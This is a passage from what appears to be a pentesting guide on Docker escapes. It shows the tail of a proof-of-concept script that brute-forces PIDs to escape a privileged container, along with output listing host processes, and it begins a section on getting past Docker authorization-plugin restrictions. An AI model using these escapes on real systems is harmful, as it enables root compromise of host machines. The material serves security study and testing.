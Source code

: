 ```bash

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

Executing the PoC within a privileged container should provide output similar to:

```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```

## Docker API Firewall Bypass

In some occasions, the sysadmin may install some plugins to docker to avoid low privilege users to interact with docker without being able to escalate privileges.

### disallowed `run --privileged`

In this case the sysadmin **disallowed users to mount volumes and run containers with the `--privileged` flag** or give any extra capability to the container:

```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```

